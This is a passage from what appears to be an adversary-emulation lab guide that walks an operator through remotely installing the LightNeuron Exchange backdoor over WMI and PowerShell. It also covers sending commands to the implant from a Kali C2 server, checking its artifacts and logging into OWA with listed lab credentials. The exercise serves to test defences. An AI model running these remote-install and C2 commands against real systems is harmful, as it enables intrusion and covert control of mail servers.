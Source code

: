 * Wait 1 minute and then run the following command in the elevated cmd prompt to install LightNeuron remotely using WMI and Powershell:

```cmd
wmic /node:drebule /privileges:enable /output:STDOUT process call create "cmd.exe /c powershell.exe -File C:\Windows\System32\msiex.ps1 > C:\Windows\Temp\msiexinstallation.log 2>&1"
```

:heavy_exclamation_mark: Verify that the WMIC output shows a `ReturnValue` of 0.

* Check your RDP session to `drebule (10.100.30.203)` to look for any indicators of blocked activity.

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `ZilvinasAdmin`.

* Wait 1 minute and then run the following command in the elevated cmd prompt to check the installation log for any errors:

```bat
type \\drebule\C$\Windows\Temp\msiexinstallation.log
```

:heavy_exclamation_mark: If the output contains any errors, notify your lead.

:arrow_right: Return to your Kali C2 server

* From the Kali C2 lower terminal window, task LightNeuron to perform system
network configuration discovery:

```bash
./evalsC2client.py --set-task info@nk.local '5 | ipconfig /all'
```

* :heavy_exclamation_mark: If no response is received after 5 minutes, check
the postfix logs on the Kali server to make sure the email was intercepted and
processed correctly by LightNeuron.

  ```bash
  grep postfix /var/log/syslog
  ```

  * If there is a `reject` entry, that means the email, destined for a
  nonexistent user, was processed by the Exchange server, meaning that
  LightNeuron was either not successfully installed or is not working properly.
  
:arrow_right: Switch to your RDP session to `drebule (10.100.30.203)` to look
for any indicators of blocked activity.

* Open File Explorer and browse to `C:\Windows\serviceprofiles\networkservice\appdata\Roaming\Microsoft\Windows`
  * Confirm the presence of an `msxfer.dat`, this implies the LightNeuron
    transport agent was successfully installed and intercepted the email
    containing C2 commands

* :arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`.

* Go to your Edge browser window with the OWA page. If you do not have an Edge
browser with OWA open from a previous step, open Edge then navigate to
`https://drebule.nk.local/owa` and log in as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |
